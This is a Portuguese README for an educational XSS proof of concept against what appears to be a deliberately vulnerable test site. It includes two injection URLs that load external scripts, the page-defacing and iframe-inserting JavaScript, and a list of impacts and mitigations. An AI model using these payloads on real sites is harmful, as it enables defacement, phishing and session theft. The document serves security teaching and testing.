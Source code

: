 # XSS PoC - Prova de Conceito

## ⚠️ **Aviso Legal**
🚨 **Este projeto é destinado a pesquisas de segurança ética e testes autorizados.**  
⚠️ **Não utilize em sistemas sem permissão explícita!** 
#
## Descrição do Projeto

Este projeto demonstra uma vulnerabilidade de **Cross-Site Scripting (XSS)**. A PoC explora a execução de código JavaScript injetado através de parâmetros não sanitizados em uma aplicação vulnerável. O ataque pode ser usado para alterar o conteúdo da página, exibir mensagens enganosas, carregar iframes maliciosos ou roubar dados do usuário.

## Estrutura do Projeto

- **`index.html`** → Página HTML básica usada como alvo do ataque.
- **`app.js`** → Script que substitui o conteúdo da página por uma imagem.
- **`app2.js`** → Script que insere um iframe carregando uma página externa.
- **`esmola.png`** → Imagem usada na PoC.

## Prova de Conceito (PoC)

Para demonstrar a vulnerabilidade, pode-se injetar um script externo via URL maliciosa como esta, inserindo uam imagem:

```
http://php.testinvicti.com/artist.php?id=<script+src=https://jeanrafaellourenco.github.io/xss-poc/app.js></script>
```

Ou, para carregar uma página externa dentro de um iframe:

```
http://php.testinvicti.com/artist.php?id=<script+src=https://jeanrafaellourenco.github.io/xss-poc/app2.js></script>
```

### Código JavaScript Injetado

**`app.js` - Exibição de Imagem:**
```javascript
document.querySelector('html').innerHTML='<img src="https://jeanrafaellourenco.github.io/xss-poc/esmola.png"/>';
```

**`app2.js` - Inserção de iframe:**
```javascript
document.querySelector('html').innerHTML='<iframe src="https://jeanrafaellourenco.github.io/xss-poc/" width="480" height="270" frameBorder="0"></iframe>';
```

## Impacto da Falha

- **Defacement:** O site pode ser visualmente alterado sem permissão.
- **Phishing:** Usuários podem ser enganados para inserir credenciais em uma página falsa.
- **Roubo de Sessão:** Um atacante pode capturar cookies e tokens de autenticação.
- **Execução de Scripts Maliciosos:** Qualquer código pode ser executado no contexto do site vulnerável.

## Mitigação

1. **Sanitização de entrada:** Filtrar e escapar entradas do usuário para evitar a injeção de scripts.
2. **Implementação de CSP (Content Security Policy):** Restringir fontes externas de scripts.
3. **Uso de Cookies com HTTPOnly:** Impedir o acesso aos cookies via JavaScript.
4. **Validação do lado do servidor:** Evitar a inserção direta de dados do usuário no HTML.

## Conclusão

Este projeto demonstra como um XSS pode ser explorado para comprometer a segurança de um site. A mitigação dessa vulnerabilidade é essencial para proteger os usuários e a integridade da aplicação.
